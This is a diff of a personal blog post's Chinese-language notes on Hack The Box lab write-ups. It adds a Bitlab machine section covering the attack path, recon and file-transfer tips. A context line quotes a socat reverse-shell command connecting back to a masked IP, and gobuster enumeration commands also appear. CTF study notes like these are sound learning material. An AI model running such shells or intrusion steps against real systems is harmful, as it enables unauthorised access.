

Before and after one commit to SewellDinG/sewellding.github.io, a Jekyll site: the page built from _posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md, in a window 1280 px wide and 1400 px high, scrolled down 762 px. Shown: the top 1396 px of the window, without its empty margins (207-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1482 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add Write-ups for 0xrick's hack-the-box(#3)

````diff
--- a/_posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
+++ b/_posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
@@ -15,6 +15,7 @@
 
 知识点：
 
+- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
 - 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
 - 文字转MP3：[https://ttsmp3.com](https://ttsmp3.com)，有中国女声，可读中文。
 - MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
@@ -47,3 +47,27 @@
 - 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
 - TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
 - Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
+
+### Bitlab
+
+环境概述：Linux、Medium、30'、07 Sep 2019
+
+渗透流程：Nmap -> Web Enumeration -> File Upload –> RCE –> Shell as www-data -> Database Access –> Clave’s Password –> SSH as Clave –> User Flag -> Reversing RemoteConnection.exe –> Root’s Password –> SSH as Root –> Root Flag
+
+知识点：
+
+- 信息泄露：使用Nmap发现80端口存在robots.txt，-sC参数可以识别并输出具体内容；robots.txt泄露了大量disallow路径。
+- 信息泄露：使用F12或开发者工具，查看HTML源代码，可能存在敏感JS代码。
+- 路径关联：robots里的某路径和主仓库路径关联，使用同一静态文件（图片等）可快速确定。
+- 数据库：连接数据库的工具不单只有特定的客户端程序，常见的编程语言均内置数据库连接函数，可以巧用。
+- 数据库：PostgreSQL安装完后默认自带一个命令行工具psql。
+- 文件传输：在反弹的伪终端中，使用scp下载文件，`scp clave@bitlab.htb:/home/clave/RemoteConnection.exe ./`。
+
+思考：
+
+- Nmap：-sC和-sV倒不如直接使用-A，DNS、路由等信息也加入识别。
+- 信息泄露：在厂商的授权测试中，巧用Github搜索可能会得到意外的代码信息。
+- 文件定位：Windows上传某一文件却不知上传路径时，可将文件命名一特殊名，利用`dir /s/b filename*`快速定位；Linux则可以利用grep。
+- 数据库：若环境支持PHP，可以利用adminer，支持MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, SimpleDB, Elasticsearch, MongoDB。
+- URL格式：`postgres://user:pass@host.com:5432/path?k=v#f`，包含了模式（协议）、验证信息、主机、端口、路径、查询参数和查询片段。注意：`@`和`#`。
+- 二进制程序：在逆向程序前可先使用关键字进行strings匹配。
````
Also changed, not shown: other parts of _posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md (+0 -1 lines).
